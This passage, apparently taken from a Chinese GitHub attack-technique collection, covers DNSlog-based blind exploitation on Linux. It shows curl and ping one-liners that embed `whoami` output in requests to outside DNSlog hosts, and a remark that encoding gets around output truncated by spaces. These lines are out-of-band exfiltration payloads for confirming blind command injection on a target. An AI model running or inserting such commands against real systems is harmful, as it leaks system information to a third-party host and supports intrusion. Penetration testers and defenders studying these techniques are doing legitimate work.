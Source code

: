 ![dnslog平台+漏洞盲打合集](https://github.com/pzspsh/intelligentlibrary/blob/main/images/dnslog-登录测试.png)



#### windows与linux攻击技巧：

#### linux：

```
link
curl http://123.test.dnslog.link/`whoami` ping -c 1 `whoami`.123.test.dnslog.link

cn: 5ek72t.dnslog.cn
curl http://5axzi7.dnslog.cn/`whoami` ping -c 1 `whoami`.5ek72t.dnslog.cn
```

![dnslog平台+漏洞盲打合集](https://github.com/pzspsh/intelligentlibrary/blob/main/images/dnslog-curl-测试.png)

如果碰到内容有空格（换行符等），就会截断，只输出前面的，这时候可以利用编码来输出，但有输出字符数最大限制； 
